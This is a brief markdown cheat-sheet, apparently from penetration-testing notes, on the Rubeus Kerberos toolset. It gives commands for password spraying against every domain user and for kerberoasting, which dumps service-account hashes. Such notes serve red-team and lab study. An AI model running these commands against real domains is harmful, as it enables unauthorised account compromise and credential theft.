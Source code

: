 ```yaml
---
title: RUBEUS
summary: "A C# toolset for raw Kerberos interaction and abuses."
description: "A C# toolset for raw Kerberos interaction and abuses."
---
```


**[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)**

## Password Spraying


 > 
 > **<font color=red>Rubeus.exe brute /password:</font>myPassword <font color=red>/noticket</font>**</br>
 > Spray a password against all users in current domain and return the `.kirbi` TGT of users that use this password.

## Kerberoasting


 > 
 > **<font color=red>Rubeus.exe kerberoast</font>**</br>
 > Dump Kerberos hashes of kerberoastable users (same as GetUserSPNs.py but on the target machine).
